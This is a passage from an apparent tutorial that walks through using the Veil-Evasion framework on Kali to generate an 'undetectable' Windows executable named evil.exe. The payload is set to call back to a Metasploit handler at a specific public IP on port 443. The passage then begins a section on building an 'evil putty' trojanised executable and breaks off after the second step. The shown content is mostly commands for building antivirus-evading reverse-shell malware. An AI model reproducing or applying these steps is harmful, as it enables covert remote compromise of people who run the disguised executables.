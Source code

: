 1. Get yourself booted into a Kali instance - <http://www.kali.org/downloads/>, <http://docs.kali.org/category/installation>.
2. Once in kali command line, clone the source code - run the following command.

    `git clone https://github.com/Veil-Framework/Veil.git`
3. Update the source - run the following commands. 

    `cd Veil`

    `./update.sh`
4. Next, you'll be prompted twice to update/download dependency requirements. Enter 'Y' and hit the Enter button.
5. Follow the on screen instructions in the Setup Wizard GUI window that will pop up, in order to install all the required python dependencies. Leave all the defaults in the installation wizard, just keep pressing next. 
6. Start the framework - run the following commands.

    `cd Veil-Evasion/`

    `./Veil-Evasion.py`
7. Once inside the framework, I entered the following commands to produce my undetectable exe

    `list`

    `16`

    `set LHOST 54.197.139.176 # my aws instance w metasploit handler listner`

    `set LPORT 443`

    `info` # double check the desired settings

    `generate`

    `evil` # base name for executable , can be anything 

    `1` # since we are in linux, not windows
8. Next, the exe will generate, watch closely for errors. 
9. Exit the framework - enter the following commands:

    `[enter]`

    `exit` # to leave
10. Once back at the bash command prompt, collect the newly generated exe - enter the following commands.

    `cd`

    `cd veil-output/compiled/`

    `ls` # you should see evil.exe if there were no errors

***
## 3. Evil putty payload
Perform the following steps to generate an infected putty executable.

1. Install Metasploit
2. Download putty by running the following command:
